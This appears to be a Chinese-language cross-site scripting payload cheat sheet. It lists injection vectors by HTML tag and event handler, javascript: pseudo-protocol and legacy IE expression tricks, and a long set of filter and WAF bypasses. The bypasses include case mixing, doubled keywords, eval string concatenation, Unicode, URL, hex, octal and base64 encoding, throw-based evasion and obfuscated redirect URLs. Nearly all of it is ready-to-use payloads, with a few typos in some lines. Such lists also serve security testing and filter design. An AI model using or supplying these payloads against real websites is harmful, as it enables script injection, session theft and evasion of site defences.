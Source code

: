 无过滤情况
<script>
<scirpt>alert("xss");</script>

<img>
图片加载错误时触发
<img src="x" onerror=alert(1)>
<img src="1" onerror=eval("alert('xss')")>
鼠标指针移动到元素时触发
<img src=1 onmouseover="alert(1)">
鼠标指针移出时触发
<img src=1 onmouseout="alert(1)">

<a>
<a href="https://www.qq.com">qq</a>
<a href=javascript:alert('xss')>test</a>
<a href="javascript:a" onmouseover="alert(/xss/)">aa</a>
<a href="" onclick=alert('xss')>a</a>
<a href="" onclick=eval(alert('xss'))>aa</a>
<a href=kycg.asp?ttt=1000 onmouseover=prompt('xss') y=2016>aa</a>

<input>
<input onfocus="alert('xss');">
竞争焦点，从而触发onblur事件
<input onblur=alert("xss") autofocus><input autofocus>
通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<input onfocus="alert('xss');" autofocus>
<input name="name" value="">
<input value="" onclick=alert('xss') type="text">
<input name="name" value="" onmouseover=prompt('xss') bad="">
<input name="name" value=""><script>alert('xss')</script>
按下按键时触发
<input type="text" onkeydown="alert(1)">
按下按键时触发
<input type="text" onkeypress="alert(1)">
松开按键式时触发
<input type="text" onkeyup="alert(1)">

<from>
<form action=javascript:alert('xss') method="get">
<form action=javascript:alert('xss')>
<form method=post action=aa.asp? onmouseover=prompt('xss')>
<form method=post action=aa.asp? onmouseover=alert('xss')>
<form action=1 onmouseover=alert('xss)>
<form method=post action="data:text/html;base64,<script>alert('xss')</script>">
<form method=post action="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">

<iframe>
<iframe onload=alert("xss");></iframe>
<iframe src=javascript:alert('xss')></iframe>
<iframe src="data:text/html,&lt;script&gt;alert('xss')&lt;/script&gt;"></iframe>
<iframe src="data:text/html;base64,<script>alert('xss')</script>">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
<iframe src="aaa" onmouseover=alert('xss') /><iframe>
<iframe src="javascript&colon;prompt&lpar;``xss``&rpar;"></iframe>(````只有两个``)

<svg>
<svg onload=alert(1)>

<body>
<body onload="alert(1)">
利用换行符以及autofocus，自动去触发onscroll事件，无需用户去触发
<body onscroll=alert("xss");><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>

<button>
元素上点击鼠标时触发
<button onclick="alert(1)">text</button>

<p>
元素上按下鼠标时触发
<p onmousedown="alert(1)">text</p>
元素上释放鼠标时触发
<p onmouseup="alert(1)">text</p>

<details>
<details ontoggle="alert('xss');">
使用open属性触发ontoggle事件，无需用户去触发
<details open ontoggle="alert('xss');">

<select>
<select onfocus=alert(1)></select>
通过autofocus属性执行本身的focus事件，这个向量是使焦点自动跳到输入元素上,触发焦点事件，无需用户去触发
<select onfocus=alert(1) autofocus>

<video>
<video><source onerror="alert(1)">

<audio>
<audio src=x onerror=alert("xss");>

<textarea>
<textarea onfocus=alert("xss"); autofocus>

<keygen>
<keygen autofocus onfocus=alert(1)> //仅限火狐

<marquee>
<marquee onstart=alert("xss")></marquee> //Chrome不行，火狐和IE都可以

<isindex>
<isindex type=image src=1 onerror=alert("xss")>//仅限于IE

利用link远程包含js文件
在无CSP的情况下才可以
<link rel=import href="http://127.0.0.1/1.js">

javascript伪协议
<a>标签
<a href="javascript:alert('xss');">xss</a>
<iframe>标签
<iframe src=javascript:alert('xss');></iframe>
<img>标签
<img src=javascript:alert('xss')>//IE7以下
<form>标签
<form action="Javascript:alert(1)"><input type=submit>

expression属性
<img style="xss:expression(alert('xss''))"> // IE7以下
<div style="color:rgb('' x:expression(alert(1))"></div> //IE7以下
<style>#test{x:expression(alert(/XSS/))}</style> // IE7以下

background属性
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效

存在过滤情况
过滤空格
用 / 代替空格
<img/src="x"/onerror=alert("xss");>

过滤关键字
大小写绕过
<ImG sRc=x onerRor=alert("xss");>
双写关键字(有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过)
<imimgg srsrcc=x onerror=alert("xss");>
字符拼接(利用eval)
<img src="x" onerror="a=aler;b=t;c='(xss);';eval(a+b+c)">
字符拼接(利用top)
<script>top["al"+"ert"](``xss``);</script>(只有两个``这里是为了凸显出有`符号)

其它字符混淆
有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了
下面举几个简单的例子
可利用注释、标签的优先级等
<<script>alert("xss");//<</script>
<scri<!--test-->pt>alert("hello world!")</scri<!--test-->pt>
<title><img src=</title>><img src=x onerror="alert(``xss``);"> 因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>

编码绕过
Unicode编码绕过
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">
<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">
url编码绕过
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
Ascii码绕过
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
Hex绕过
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
八进制绕过
<img src=x onerror=alert('\170\163\163')>
base64绕过
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">

过滤双引号，单引号
如果是html标签中，我们可以不用引号；如果是在js中，我们可以用反引号代替单双引号
<img src="x" onerror=alert(``xss``);>
使用编码绕过，具体看上面列举的例子

过滤括号
当括号被过滤的时候可以使用throw来绕过
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">

过滤url地址
使用url编码
<img src="x" onerror=document.location=``http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/``>
使用IP
<img src="x" onerror=document.location=``http://2130706433/``>十进制
<img src="x" onerror=document.location=``http://0177.0.0.01/``>八进制
<img src="x" onerror=document.location=``http://0x7f.0x0.0x0.0x1/``>十六进制
<img src="x" onerror=document.location=``//www.baidu.com``>html标签中用//可以代替http://
使用\ (注意：在windows下\本身就有特殊用途，是一个path 的写法，所以\在Windows下是file协议，在linux下才会是当前域的协议)
使用中文逗号代替英文逗号
<img src="x" onerror="document.location=``http://www。baidu。com``">//会自动跳转到百度
